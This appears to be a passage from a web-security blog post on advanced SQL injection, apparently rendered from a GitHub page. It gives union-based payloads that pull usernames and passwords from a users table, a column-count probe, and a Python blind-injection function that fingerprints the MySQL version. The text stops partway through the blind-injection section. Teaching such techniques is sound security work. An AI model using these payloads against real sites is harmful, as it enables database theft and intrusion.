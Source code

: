 ```yaml
---
layout: default
title: "Advanced SQL Injection Techniques"
date: 2024-01-15
tags: [sql-injection, web-security, database]
excerpt: "Deep dive into modern SQL injection attack vectors and bypass techniques"
---
```


# Advanced SQL Injection Techniques

SQL injection remains one of the most critical web application vulnerabilities. This research explores advanced techniques and modern bypass methods.

## Union-Based Injection

\`\`\`sql
-- Basic union injection
' UNION SELECT username, password FROM users--

-- Advanced payload with column count detection
' UNION SELECT 1,2,3,4,5,6,7,8,9,10--
\`\`\`

## Boolean-Based Blind Injection

```python
import requests

def blind_sqli_test(url, payload):
    response = requests.get(f"{url}?id=1' AND {payload}--")
    return "Welcome" in response.text

# Test for database version
payload = "SUBSTRING(@@version,1,1)='5'"
if blind_sqli_test(target_url, payload):
    print("MySQL version 5.x detected")

